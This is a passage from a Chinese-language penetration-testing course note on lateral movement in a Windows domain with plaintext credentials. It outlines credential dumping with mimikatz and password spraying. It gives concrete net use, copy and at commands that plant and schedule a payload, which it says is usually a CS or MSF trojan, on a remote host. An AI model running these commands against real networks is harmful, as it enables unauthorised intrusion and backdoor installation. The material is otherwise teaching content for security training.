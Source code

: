 







------

**day66.域横向批量 at&schtasks&impacket**

''传递攻击是建立在明文和hash获取介质上的一种攻击

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2D28wp3MZ68ys1h546AjmjqoNf6oqiaibNhiazCaCDh0GmFD4hVHmmF4zQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)





![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2ylDvRm1lR3v47BrXYlNiaMw6TS7TXbfzOVSeO4xOedmflknknBOJjibg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2WWpTZibxnnHibCIP7MkaB0vSdrmUmj560HBl4gMk4MKyxYbHtur4nCHQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



演示案例

**案例1-横向渗透明文传递at&schtasks**

在拿下一台内网主机后,通过本地信息搜集收集用户凭证等信息后,如何横向渗透拿下更多的主机?



这里仅介绍at&schtasks命令的使用,在已知目标系统的用户明文密码的基础上,直接可以在远程主机上执行命令。获取到某域主机权限->minikatz得到密码(明文,hash)->用到信息收集里面域用户的列表当作用户字典->用到密码明文当作密码字典->尝试连接->创建计划任务(at|schtasks)->执行文件为后⻔或相关命令



利用流程:

- 1.建立IPC链接到目标主机
- 2.拷⻉要执行的命令脚本到目标主机
- 3.查看目标时间,创建计划任务(at,schtasks)
- 4.删除IPC链接



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2vUukZqUgd1CYjour9NkCic7IVxBtic38sM8Irth2VZdwlbQr4LQxTtEg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2xaia8E2blUcQmMuM7vQMtSotSkN5WdsKgzxBrG8PMDYlicJIgUNUq5MQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



[at] & [schtasks] 都是基于定时任务的攻击

\#at < Windows2012

net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\administrator #建立IPC连接:

copy add.bat \\192.168.3.21\c$ #拷⻉执行文件到目标机器(实战中大多是CS或者MSF木⻢)

at \\192.168.3.21 15:47 c:\add.bat #添加计划任务



